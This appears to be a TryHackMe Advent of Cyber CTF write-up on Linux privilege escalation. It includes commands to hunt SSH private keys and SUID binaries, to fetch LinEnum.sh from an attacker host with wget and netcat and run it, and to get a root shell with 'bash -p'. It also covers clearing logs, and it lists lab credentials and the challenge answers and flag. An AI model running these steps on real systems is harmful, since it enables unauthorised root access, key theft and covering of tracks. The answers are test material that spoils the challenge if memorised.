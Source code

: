 ```yaml
---
description: Networking - Priv Esc
---
```


# The Rogue Gnome

## Video

{% embed url="https://www.youtube.com/watch?v=\_SMxZPne5QU" %}

## Resources

[DVWA \(Damn Vulnerable Web App\)](http://www.dvwa.co.uk/)

`whoami` name of the account

`echo $0`  our shell

`python -c 'import pty; pty.spawn("/bin/bash")'`  spawn another shell and make it interactive

We're using `find` to search the volume, by specifying the root \(`/`\) to search for files named "id\_rsa" which is the name for _private_ SSH keys, and then using `2> /dev/null` to only show matches to us.

`find / -name id_rsa 2> /dev/null`

### The "Priv Esc Checklist"

1. Determining the kernel of the machine \(kernel exploitation such as Dirtyc0w\)
2. Locating other services running or applications installed that may be abusable \(SUID & out of date software\)
3. Looking for automated scripts like backup scripts \(exploiting crontabs\)
4. Credentials \(user accounts, application config files..\)
5. Mis-configured file and directory permissions

### Cheatsheets

* [g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation)
* [payatu](https://payatu.com/guide-linux-privilege-escalation)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation)

### SUID 101

 [GTFOBins](https://gtfobins.github.io/)

`find / -perm -u=s -type f 2>/dev/null`

### Enumeration Scripts

[LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

### Transfer Scripts

`python3 -m http.server 8080`

`nc -l -p 1337 > LinEnum.sh`    `nc -w -3 10.10.6.64 1337 < LinEnum.sh`

### Covering our Tracks

* "/var/log/auth.log" \(Attempted logins for SSH, changes too or logging in as system users:\)
* "/var/log/syslog" \(System events such as firewall alerts:\)
* "/var/log/&lt;service/" -- /var/log/apache2/access.log"

## Challenge

What type of privilege escalation involves using a user account to execute commands as an administrator?

{% hint style="success" %}
vertical
{% endhint %}

What is the name of the file that contains a list of users who are a part of the `sudo` group?

{% hint style="success" %}
sudoers
{% endhint %}

Use SSH to log in to the vulnerable machine like so: `ssh cmnatic@10.10.6.64`

 Input the following password when prompted: **aoc2020**

![](../.gitbook/assets/image%20%2829%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

Enumerate the machine for executables that have had the SUID permission set. Look at the output and use a mixture of [GTFObins](https://gtfobins.github.io/) and your researching skills to learn how to exploit this binary.

You may find uploading some of the enumeration scripts that were used during today's task to be useful.

```text
wget 10.14.4.204:8080/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

![](../.gitbook/assets/image%20%2823%29.png)

![](../.gitbook/assets/image%20%2817%29.png)

> https://gtfobins.github.io/gtfobins/bash/

```text
bash -p
```

![](../.gitbook/assets/image%20%2838%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

Use this executable to launch a system shell as root.  
  
What are the contents of the file located at **/root/flag.txt**?

```text
cat /root/flag.txt
```

![](../.gitbook/assets/image%20%2866%29.png)

{% hint style="success" %}
thm{2fb10afe933296592}
{% endhint %}

